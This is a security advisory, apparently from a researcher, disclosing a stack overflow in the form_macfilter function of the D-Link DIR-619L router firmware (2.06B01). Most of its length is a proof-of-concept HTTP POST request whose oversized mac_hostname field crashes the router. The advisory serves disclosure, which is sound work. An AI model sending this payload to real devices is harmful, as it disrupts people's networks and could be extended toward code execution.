

# D-Link Vulnerability

Vendor:D-Link

Product:DIR619L

Version:2.06B01

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `boa` binary:

In the router's `form_macfilter` function, `mac_hostname_%d、sched_name_%d` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `mac_hostname_%d、sched_name_%d` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `mac_hostname_%d、sched_name_%d` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `mac_hostname_%d` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/form_macfilter HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 3220
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/mydlink/set_Macfilter.asp
Upgrade-Insecure-Requests: 1

settingsChanged=1&macFltMode=1&entry_enable_0=1&mac_0=0021918e190f&mac_hostname_0=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&mac_addr_0=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_0=Always&entry_enable_1=1&mac_1=0021918e190f&mac_hostname_1=PC-123456&mac_addr_1=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_1=Always&entry_enable_2=1&mac_2=0021918e190f&mac_hostname_2=PC-123456&mac_addr_2=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_2=Always&entry_enable_3=1&mac_3=0021918e190f&mac_hostname_3=PC-123456&mac_addr_3=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_3=Always&entry_enable_4=1&mac_4=0021918e190f&mac_hostname_4=PC-123456&mac_addr_4=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_4=Always&entry_enable_5=1&mac_5=0021918e190f&mac_hostname_5=PC-123456&mac_addr_5=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_5=Always&entry_enable_6=1&mac_6=0021918e190f&mac_hostname_6=PC-123456&mac_addr_6=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_6=Always&entry_enable_7=1&mac_7=0021918e190f&mac_hostname_7=PC-123456&mac_addr_7=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_7=Always&entry_enable_8=1&mac_8=0021918e190f&mac_hostname_8=PC-123456&mac_addr_8=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_8=Always&entry_enable_9=1&mac_9=0021918e190f&mac_hostname_9=PC-123456&mac_addr_9=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_9=Always&entry_enable_10=1&mac_10=0021918e190f&mac_hostname_10=PC-123456&mac_addr_10=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_10=Always&entry_enable_11=1&mac_11=0021918e190f&mac_hostname_11=PC-123456&mac_addr_11=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_11=Always&entry_enable_12=1&mac_12=0021918e190f&mac_hostname_12=PC-123456&mac_addr_12=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_12=Always&entry_enable_13=1&mac_13=0021918e190f&mac_hostname_13=PC-123456&mac_addr_13=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_13=Always&entry_enable_14=1&mac_14=0021918e190f&mac_hostname_14=PC-123456&mac_addr_14=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_14=Always&entry_enable_15=1&mac_15=0021918e190f&mac_hostname_15=PC-123456&mac_addr_15=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_15=Always&entry_enable_16=1&mac_16=0021918e190f&mac_hostname_16=PC-123456&mac_addr_16=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_16=Always&entry_enable_17=1&mac_17=0021918e190f&mac_hostname_17=PC-123456&mac_addr_17=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_17=Always&entry_enable_18=1&mac_18=0021918e190f&mac_hostname_18=PC-123456&mac_addr_18=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_18=Always&entry_enable_19=1&mac_19=0021918e190f&mac_hostname_19=PC-123456&mac_addr_19=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_19=Always&entry_enable_20=1&mac_20=0021918e190f&mac_hostname_20=PC-123456&mac_addr_20=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_20=Always&entry_enable_21=1&mac_21=0021918e190f&mac_hostname_21=PC-123456&mac_addr_21=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_21=Always&entry_enable_22=1&mac_22=0021918e190f&mac_hostname_22=PC-123456&mac_addr_22=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_22=Always&entry_enable_23=1&mac_23=0021918e190f&mac_hostname_23=PC-123456&mac_addr_23=00%253A21%253A91%253A8e%253A19%253A0f&sched_name_23=Always
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
